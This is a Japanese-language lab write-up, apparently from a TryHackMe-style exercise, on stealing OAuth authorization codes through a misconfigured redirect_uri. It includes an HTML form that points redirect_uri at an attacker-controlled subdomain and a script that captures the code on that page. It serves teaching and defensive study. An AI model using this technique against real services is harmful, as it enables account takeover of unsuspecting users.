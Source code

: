 # Exploit
## OAuth Tokenの窃取
OAuth Token
- 保護されたリソースへのアクセスを許可するデジタルキーとして機能
- これらのトークンは認可サーバーによって発行され、redirect_uri パラメータに基づいてクライアントアプリにリダイレクトされる
- redirect_uri が適切に保護されていない場合、攻撃者がこの仕組みを悪用してトークンを乗っ取ることができる

redirect_uri 
- OAuthフロー中、redirect_uri パラメータは、認可後に認可サーバーがどこへトークンを送るかを指定する
- このURIは、オープンリダイレクト脆弱性を防ぐため、事前にアプリケーション設定に登録されている必要がある

### 脆弱性
不適切に設定された redirect_uri
- 攻撃者が、redirect_uri に含まれるドメインやURIを制御できる場合、トークンを奪取することが可能

例
- 登録済みの redirect_uri の一部
	- コーヒーショップアプリの設定パネルに登録された redirect_uri
- TTP
	- 攻撃者が dev.bistro.thm を制御できる場合、redirect_uri を `http://dev.bistro.thm/callback` に設定することで、認可サーバーはトークンをこの攻撃者のドメインに送信する
- 流れ
	- 攻撃者はOAuthフローを開始し、redirect_uri を自分のドメインに設定
	- ユーザーが認可すると、トークンが攻撃者のドメインに送信され、攻撃者がこれを奪取する

### 手順
前提
- 攻撃者が dev.bistro.thm:8002 を乗っ取り済み
- HTMLファイル(redirect_uri.html)をホストしている

#### 攻撃の準備
2つのサイトをホストする
- redirect_uri.html
	- 認可リクエストのサイト
	- redirect_uriが、`http://dev.bistro.thm:8002/malicious_redirect.html`になっていることがポイント
		- 認可後、認可サーバーは redirect_uri に指定されたURLに認可コードを送信する
		- この例では、redirect_uri に`malicious_redirect.html`を指定しており、認可コードは攻撃者がホストするページに送信される
```sh
<form action="http://coffee.thm:8000/oauthdemo/oauth_login/" method="get">
    <input type="hidden" name="redirect_uri" value="http://dev.bistro.thm:8002/malicious_redirect.html">
    <input type="submit" value="Hijack OAuth">
</form>
```

malicious_redirect.html
- 以下のスクリプトで認可コードを奪取する
	- 攻撃者がサブドメインを完全に制御しているため、認可コードは素早く盗まれ、被害者は気付かない
```sh
<script>
    const urlParams = new URLSearchParams(window.location.search);
    const code = urlParams.get('code');
    document.getElementById('auth_code').innerText = code;
    console.log("Intercepted Authorization Code:", code);
    // データベースやファイルに保存など
</script>
```
